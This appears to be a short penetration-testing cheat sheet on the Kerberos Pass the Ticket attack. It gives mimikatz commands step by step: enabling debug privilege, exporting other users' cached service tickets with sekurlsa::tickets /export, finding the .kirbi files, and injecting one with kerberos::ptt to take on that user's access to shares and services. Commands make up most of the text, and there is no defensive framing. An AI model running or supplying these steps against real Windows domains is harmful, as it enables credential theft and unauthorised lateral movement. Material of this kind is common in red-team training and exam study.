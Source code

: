 The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.

# mimikatz
```
privilege::debug
```
Assuming a session with a different user already exists on this machine:
```
sekurlsa::tickets /export
```
Look for a file that has $(USER)@$(HOSTNAME).kirbi (i.e. "[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi"):
```batch
dir *.kirbi
```
```batch
kerberos::ptt $(KIRBI_FILENAME)
```
Now there will be the permissions of the ticket enabled on the current session and user. (i.e. if the user who's ticket was taken from cache is able to access a share, you can too!)
